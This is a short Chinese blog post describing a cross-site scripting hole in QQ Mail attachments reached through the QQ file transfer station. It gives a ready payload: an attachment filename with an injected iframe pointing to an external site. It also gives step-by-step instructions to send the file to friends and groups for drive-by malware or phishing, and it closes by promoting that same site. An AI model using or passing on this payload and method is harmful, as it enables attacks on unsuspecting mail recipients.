 ```yaml
---
layout: post
title: "QQ邮箱跨站新方法"
categories:
- 今日头条
tags:
---
```

一.挖掘过程

这次漏洞的位置是QQ邮箱附件，但是料方式不是常规的上传附件，需要通过QQ的文件中转站作为媒介。

以前挖掘QQ邮箱漏洞的时候我就想过这个地方，但是那时候同样的方式对它无效，后来和冷阳测试的时候发现QQ文件中转站对上传文件的验证很是敷衍，于是就想到了利用文件中转站发送附件给好友的这个功能进行挂马或者钓鱼攻击。

这次的漏洞还是比较不错的，对QQ群邮件和单独QQ邮件通杀，同时还可以单独使用。漏洞的原理和PHPWind附件文档名跨站脚本漏洞差不多。

![](http://p3.pstatp.com/large/162c0001f526f3189a31)

二.利用方法

说了这么多，大家肯定都迫不及待了吧！下面我就教大家如何利用这个漏洞。首先我们进入QQ邮箱，点文件中转站，选择上传附件，并自己构造一个附件：D:\diaopai<iframe src=http:&#47;www.leso99.com%20width=800%20height=800><%2Fiframe>XXS.rar就是利用代码，上传就可以了。上传完毕后刷新一下就可以看见这些伪造的附件了，文件大小是0kb。点击发送给好友就行了，也可以选择QQ个人和群邮件，发送后的效果那就应该不用我说了吧！这个漏洞的利用方法非常简单，我就不再啰嗦了。这个漏洞只适用于QQ邮箱，至于别的邮箱如何突破就靠大家努力了。

![](http://p3.pstatp.com/large/15a400021b1a2332629d)



访问：www.leso99.com 分享更多精彩内容！
